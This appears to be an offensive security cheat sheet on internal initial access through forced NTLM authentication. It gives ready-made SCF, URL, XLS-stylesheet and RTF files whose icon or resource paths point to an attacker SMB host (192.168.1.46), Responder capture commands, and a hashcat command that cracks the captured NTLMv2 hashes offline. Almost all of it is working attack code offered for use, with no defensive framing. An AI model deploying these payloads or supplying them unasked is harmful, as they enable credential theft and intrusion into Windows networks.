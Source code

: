# Internal Initial Access

***

## Shell Command Files - SCF

files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer.

#### Payload

nooranet.scf

```cmd
[Shell]
Command=2
IconFile=\\192.168.1.46\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```

#### Responder

```bash
responser -I eth0 -v
```

## Execute via URL

#### payload

nss.url

```cmd
[InternetShortcut]
URL=http://nooranetred.com
WorkingDirectory=c:\
IconFile=\\192.168.1.46\nss.icon
IconIndex=1
```

#### Responder

```bash
responser -I eth0 -v
```

## Execute via XLS

#### nooranet.xls

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<?mso-application progid="Word.Document"?>
<?xml-stylesheet type="text/xsl" href="\\192.168.1.46\1.xsl" ?>
```

#### Responder

```bash
responser -I eth0 -v
```

## Rich Text Format - RTF

#### nss.rtf

```rtf
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://192.168.1.46/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```

#### Responder

```bash
responser -I eth0 -v
```

### NTLM Crack offline

```bash
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

# 